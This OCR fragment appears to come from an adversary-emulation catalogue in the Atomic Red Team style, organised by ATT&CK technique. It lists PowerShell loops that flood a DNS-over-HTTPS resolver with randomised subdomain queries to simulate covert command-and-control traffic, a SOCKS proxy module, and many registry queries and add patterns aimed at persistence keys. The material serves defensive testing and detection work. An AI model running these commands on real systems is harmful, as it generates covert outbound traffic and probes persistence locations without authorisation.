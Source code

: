 * for($i=0; $i -le #{query_volume}; $i++) { (Invoke-WebRequest "#{doh_server}?name=#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).127.0.0.1.xip.io&type=#{query_type}" -UseBasicParsing).Content }
* for($i=0; $i -le #{query_volume}; $i++) { (Invoke-WebRequest "https://8.8.8.8/resolve?name=#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}&type=#{query_type}" -UseBasicParsing).Content }
* for($i=0; $i -le #{query_volume}; $i++) { (Invoke-WebRequest "#{doh_server}?name=atomicredteam.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}&type=#{query_type}" -UseBasicParsing).Content }
* for($i=0; $i -le #{query_volume}; $i++) { (Invoke-WebRequest "#{doh_server}?name=#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}&type=TXT" -UseBasicParsing).Content }
* for($i=0; $i -le 1000; $i++) { (Invoke-WebRequest "#{doh_server}?name=#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}&type=#{query_type}" -UseBasicParsing).Content }
##T1090: Proxy
* python/management/multi/socks
##T1012: Query Registry
* reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
* cmd.exe /c reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
* reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows"
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify"
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit"
reg query "HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\\Shell"
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\\Shell"
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
reg query HKLM\system\currentcontrolset\services /s | findstr ImagePath 2>nul | findstr /Ri ".*\.sys$"
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
* Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion
* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
* cmd.exe reg (query|add)
* HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices
* cmd.exe reg (query|add)
* HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
* cmd.exe reg (query|add)
* HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\\Shell
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\\Shell
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
* cmd.exe reg (query|add)